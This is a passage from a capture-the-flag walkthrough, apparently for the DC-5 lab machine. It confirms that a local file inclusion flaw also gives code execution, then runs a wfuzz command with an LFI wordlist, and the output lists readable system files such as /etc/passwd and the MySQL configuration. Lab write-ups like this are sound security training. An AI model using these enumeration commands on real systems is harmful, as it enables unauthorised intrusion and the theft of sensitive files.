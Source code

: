 Now that we have LFI, allowing us to read files, we need to confirm the extent of this vulnerability. If we can only read the data, that's helpful, but if we can also execute files, we might gain control of the system. Let's first confirm the capability. I'll attempt to call the index file. If we receive back the raw code, it means we can only read the code. If we see the furnished web application, it indicates code execution as well.

![](/assets/images/dc-5/4.png)

As we can see from the furnished output, it's confirmed that the LFI also has the capability to execute the code. Now, we need to find a way to gain access to the system using this LFI vulnerability. I would like to check all the files accessible through this LFI vulnerability, so I'll run wfuzz again.

```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hc 404 --hh 835 "$URL”

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                    
=====================================================================                          
000000124:   200        58 L     152 W      1546 Ch     "/etc/apt/sources.list"                                                                                    
000000116:   200        263 L    1162 W     7950 Ch     "/etc/apache2/apache2.conf"                                                                                
000000133:   200        96 L     117 W      1558 Ch     "/etc/group"                                                                                               
000000130:   200        54 L     151 W      1499 Ch     "/etc/fstab"                                                                                               
000000203:   200        52 L     120 W      1246 Ch     "/etc/hosts.allow"                                                                                         
000000204:   200        59 L     174 W      1546 Ch     "/etc/hosts.deny"                                                              
000000126:   200        57 L     187 W      1557 Ch     "/etc/crontab"                                                                                             
000000200:   200        49 L     85 W       1019 Ch     "/etc/hosts"                                    
000000252:   200        70 L     104 W      2319 Ch     "/etc/passwd"                                      
000000245:   200        62 L     124 W      1332 Ch     "/etc/nsswitch.conf"                                
000000244:   200        61 L     166 W      1602 Ch     "/etc/netconfig"                                                                                           
000000241:   200        49 L     103 W      1121 Ch     "/etc/motd"                                                                                                
000000243:   200        170 L    590 W      4368 Ch     "/etc/mysql/my.cnf"                                                                                        
000000232:   200        44 L     68 W       861 Ch      "/etc/issue"                                                                                               
000000231:   200        466 L    1334 W     11019 Ch    "/etc/init.d/apache2"                  
000000394:   200        45 L     69 W       898 Ch      "/etc/resolv.conf"                                                                                         
```